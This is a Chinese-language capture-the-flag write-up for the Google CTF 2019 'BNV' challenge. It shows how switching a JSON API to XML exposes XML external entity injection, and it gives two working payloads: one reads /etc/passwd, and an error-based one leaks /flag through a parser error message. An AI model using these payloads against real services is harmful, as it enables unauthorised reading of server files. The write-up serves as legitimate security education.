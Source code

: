 # BNV

[English Version](https://github.com/w181496/CTF/blob/master/googlectf-2019-qual/bnv/README_en.md)

這題題目會把送出的選項編碼成點字 

(https://www.pharmabraille.com/pharmaceutical-braille/the-braille-alphabet/)

背後是用JS送到`/api/serach`，然後送的格式是`application/json`

如果嘗試把`Content-type`改成`application/xml`

會發現噴XML Parse Error

所以可以知道對面Server支援XML格式的輸入

嘗試XXE會發現沒有回顯:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]> 
<message>&xxe;</message>
```

可以發現如果是存在的檔案會回: `No Result`

不存在的檔案會噴Error

代表XML Parse的過程的確有讀到檔案

所以最後目標就是把內容帶出來

<br>

這裡可以利用前陣子很火的Error based XXE的方式

把內容夾帶到 Error message 中帶出來

payload:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
```

![](https://github.com/w181496/CTF/blob/master/googlectf-2019-qual/bnv/bnv.png)

flag: `CTF{0x1033_75008_1004x0}`


